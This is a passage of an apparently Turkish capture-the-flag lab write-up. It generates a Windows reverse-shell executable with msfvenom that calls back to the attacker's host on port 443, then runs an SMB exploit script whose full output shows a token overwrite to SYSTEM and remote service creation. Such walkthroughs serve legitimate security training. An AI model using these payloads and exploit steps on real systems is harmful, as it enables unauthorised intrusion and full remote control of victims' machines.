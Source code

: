 
#### Generate Payload

Yine msfvenom kullanacağım. Bu kez, bir exe kullanabileceğim için bad karakterler veya değişken adları konusunda endişelenmeme gerek yok:

```
root@kali# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o rev_10.10.14.14_443.exe
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: rev_10.10.14.14_443.exe

```

#### Run Exploit

Şimdi bir listener başlatacağım ve ardından exploit'i çalıştıracağım:

```
root@kali# python send_and_execute.py 10.10.10.4 rev_10.10.14.14_443.exe
Trying to connect to 10.10.10.4:445
Target OS: Windows 5.1
Using named pipe: browser
Groom packets
attempt controlling next transaction on x86
success controlling one transaction
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x82246bb8
SESSION: 0xe10f9408
FLINK: 0x7bd48
InData: 0x7ae28
MID: 0xa
TRANS1: 0x78b50
TRANS2: 0x7ac90
modify transaction struct for arbitrary read/write
make this SMB session to be SYSTEM
current TOKEN addr: 0xe1b1df10
userAndGroupCount: 0x3
userAndGroupsAddr: 0xe1b1dfb0
overwriting token UserAndGroups
Sending file N0KFUJ.exe...
Opening SVCManager on 10.10.10.4.....
Creating service TMkY.....
Starting service TMkY.....
The NETBIOS connection with the remote host timed out.
Removing service TMkY.....
ServiceExec Error on: 10.10.10.4
nca_s_proto_error
Done
```
